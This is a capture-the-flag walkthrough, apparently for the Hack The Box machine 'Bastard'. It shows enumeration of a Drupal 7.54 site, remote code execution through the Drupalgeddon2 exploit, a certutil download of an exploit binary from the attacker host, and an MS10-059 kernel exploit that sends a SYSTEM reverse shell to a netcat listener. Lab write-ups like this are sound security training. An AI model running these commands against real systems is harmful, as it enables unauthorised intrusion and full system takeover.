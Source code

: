# IP Address: 10.10.10.9

# Enumeration

```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.9 -t all

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

### HTTP
This is a drupal site. We use droopscan to enumerate.
```
┌──(code㉿kali)-[~/tools/droopescan]
└─$ droopescan  scan drupal -u http://10.10.10.9
[+] Plugins found:                                                              
    ctools http://10.10.10.9/sites/all/modules/ctools/
        http://10.10.10.9/sites/all/modules/ctools/CHANGELOG.txt
        http://10.10.10.9/sites/all/modules/ctools/changelog.txt
        http://10.10.10.9/sites/all/modules/ctools/CHANGELOG.TXT
        http://10.10.10.9/sites/all/modules/ctools/LICENSE.txt
        http://10.10.10.9/sites/all/modules/ctools/API.txt
    libraries http://10.10.10.9/sites/all/modules/libraries/
        http://10.10.10.9/sites/all/modules/libraries/CHANGELOG.txt
        http://10.10.10.9/sites/all/modules/libraries/changelog.txt
        http://10.10.10.9/sites/all/modules/libraries/CHANGELOG.TXT
        http://10.10.10.9/sites/all/modules/libraries/README.txt
        http://10.10.10.9/sites/all/modules/libraries/readme.txt
        http://10.10.10.9/sites/all/modules/libraries/README.TXT
        http://10.10.10.9/sites/all/modules/libraries/LICENSE.txt
    services http://10.10.10.9/sites/all/modules/services/
        http://10.10.10.9/sites/all/modules/services/README.txt
        http://10.10.10.9/sites/all/modules/services/readme.txt
        http://10.10.10.9/sites/all/modules/services/README.TXT
        http://10.10.10.9/sites/all/modules/services/LICENSE.txt
    profile http://10.10.10.9/modules/profile/
    php http://10.10.10.9/modules/php/
    image http://10.10.10.9/modules/image/

[+] Themes found:
    seven http://10.10.10.9/themes/seven/
    garland http://10.10.10.9/themes/garland/

[+] Possible version(s):
    7.54

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.9/CHANGELOG.txt
    Default admin - http://10.10.10.9/user/login

```

Since the target is running Drupal 7.54, we check exploit-db for any interesting exploits. 
We find Drupalgeddon2. https://www.exploit-db.com/exploits/44449

# Exploitation

Run the exploit against the target and get remote command execution.
```
┌──(code㉿kali)-[~/tools/droopescan]
└─$ ./44449.rb http://10.10.10.9
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54

...

drupalgeddon2>> whoami
nt authority\iusr
```

# Privilege Escalation
We copy the output of `systeminfo` to our local machine and run windows-exploit-suggester against it. 
```
┌──(code㉿kali)-[~/tools]
└─$ ./windows-exploit-suggester.py --database 2021-11-17-mssb.xls --systeminfo systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
...
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
...
[*] done
```


We try the pre-compiled exploit MS10-059.exe from https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059 by copying it to the target with `certutil`. After running the exploit, we see that a netcat listener needs to be setup on our local machine to receive the reverse shell. 

On target:
```
drupalgeddon2>> certutil -urlcache -split -f "http://10.10.14.17/exploit.exe
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
drupalgeddon2>> exploit2.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
drupalgeddon2>> exploit2.exe 10.10.14.17 443
```

Locally:
```
┌──(code㉿kali)-[~/tools/windows-kernel-exploits/MS10-059]
└─$ nc -nlvp 443                                                                                                                                  
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.9] 60884
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```


# Proof
user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Bastard/images/Pasted%20image%2020211117183833.png)

root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Bastard/images/Pasted%20image%2020211117183923.png)
